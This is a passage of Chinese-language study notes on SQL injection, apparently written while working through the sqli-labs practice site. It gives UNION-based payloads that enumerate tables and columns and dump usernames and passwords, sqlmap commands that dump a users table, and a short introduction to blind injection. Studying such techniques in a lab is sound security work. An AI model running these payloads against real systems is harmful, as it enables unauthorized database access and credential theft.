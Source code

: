 附上语句

```
id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
```

### 爆字段名

附上语句

```
id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
```

此时的users时刚才查询表名获得的其中一个表名(必须要加单引号,如果是数字可以不用）

### 获取字段值

附上语句

```
id=-1' union select 1,group_concat(username),group_concat(password) from users --+（这里不用引号）
```

或者

```
id=-1' union select 1,group_concat(username,0x3a,password),3 from users --+
```

除此之外还可以通过

```
union select 1,group_concat(schema_name),3 from information_schema.schemata --+来获得schema_name
```



### **利用sqlmap注入:**

```
python sqlmap.py -u “url” --dbs --batch

python sqlmap.py -u “url” -D security --tables --batch

python sqlmap.py -u “url” -D security -T users --columns --batch 

python sqlmap.py -u “url” -D security -T users --C “username,password” --dump --batch
```

其实我试了试，基于get方式的例如sqli-labs的1-10都可以用这种方式探测

# 盲注(Bind SQL)

之所以为盲注是因为在你构造sql语句或者其他时，页面只会返回指定结果，不会像union那样返回查询的结果

主要思路为构造sql语句如id=1' and (length(user()))等一系列语句来逐个猜解(闷头肝)
